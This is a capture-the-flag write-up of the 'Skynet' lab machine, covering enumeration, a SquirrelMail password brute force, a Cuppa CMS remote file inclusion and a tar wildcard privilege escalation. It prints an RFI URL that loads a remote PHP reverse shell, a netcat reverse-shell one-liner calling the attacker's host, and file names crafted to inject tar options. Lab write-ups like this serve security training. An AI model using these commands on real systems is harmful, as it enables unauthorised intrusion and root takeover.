**Category:** Web
**Author:** *Harsh Sharma*

# Skynet

## Enumeration using nmap

 `nmap -sV -sC -p- 10.10.239.177`



So many services running, let's start enumerating the directories

### Dir enumeration



Nothing on the source code too.

`gobuster dir -u 10.10.239.177 -w /usr/share/wordlists/dirb/common.txt -x html,php -q`



All the dirs are unaccessible but the squirrelmail page.



>However, we do need a login id and password and the usual ones [(admin, password), (admin, admin) etc... ]didn't work

Let's try samba exploitation for any useful info.

### Samba enumeration

I am using enum4linux script with verbose option to see for any credentials or any other useful info
`enum4linux -v 10.10.239.177 | tee smb_enum.log`

and interestingly enough, found a user *'milesdyson'* and *anonymous* as well





```console
smb: \> ls
  .                                   D        0  Thu Nov 26 16:04:00 2020
  ..                                  D        0  Tue Sep 17 07:20:17 2019
  attention.txt                       N      163  Wed Sep 18 03:04:59 2019
  logs                                D        0  Wed Sep 18 04:42:16 2019

                9204224 blocks of size 1024. 5820508 blocks available

```
Here's what the attention.txt says -
**A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this. -Miles Dyson**

As for the logs folder, there were 3 log files, out of which, 2 were empty, however, the third one appeared to be a password list that might been previous used.
> Many password started with the word 'terminator'

Now that we have a wordlist, and based on the hints, we can possibly try signing in on squirrelmail. 

I quickly fired up burp suite to intercept and it's just a simple POST request-


let's do a sniper attack with our wordlist 
> after setting user as *milesdyson*


and looks like this is the password-



> **FLAG-1**

and we are in...



Furthermore, 2 weird emails-



and



which translates to - *`balls have zero to me to me to me to me to me to me to me to me to`*

Dont' know the reference at this point but might be helpful later on. Additionally, found mile's password in another email for samba.



Used this to get in to his share and the found a file `/notes/important.txt`
> It was an interesting rabbit hole while trying to look for this

Anyhow, the file mentions about a CMS and a secret directory, let's visit it.
> **FLAG-2**



Nothing special on the page or the source code-



but there's an admin page (for the CMS, as mentioned earlier)





and this *'Cuppa CMS'* has a vulnerability-



after reading the file, it appears that is a file inclusion vulnerability i.e. 
**Remote File Inclusion**
> **FLAG-3**

### RFI exploit





So, i saved a php reverse shell in my root folder and used a python http server (port 8000) to transfer over the php file, exploiting RFI-

`http://10.10.239.177/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.174.219:8000/rev_shell.php`





and we have the shell...

Navigating to miles's home folder, we can find the user.txt

> **FLAG-4**

## Privilege Escalation

let's get a fully interactive shell first -

`python -c 'import pty; pty.spawn("/bin/bash")'`



let's check for crons


This backup file is being called every minute.



Interesting... It's saved as root and we can probably exploit it.

I spent a while before finding out [this](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa) article that elaborates on how to exploit tar wildcards-

Based on that, I used the following commands to get a root shell-

```console
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.174.219 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```


and in a couple of seconds, i have the root-



> **FLAG-5**

---
## Conclusion

This challenge provided a comprehensive journey through various phases of penetration testing:

- Enumeration: Leveraging tools like Nmap, Gobuster, and Enum4linux to uncover potential entry points.
- Exploitation: Exploiting vulnerabilities in services like Samba and Cuppa CMS to gain initial access.
- Privilege Escalation: Using creative methods, such as tar wildcard exploitation, to achieve root access.
Each step reinforced essential techniques in web application and service exploitation, showcasing the importance of methodical enumeration and persistence in CTF challenges.

Skynet was a great exercise in connecting the dots from enumeration to privilege escalation. Happy hacking! 😊


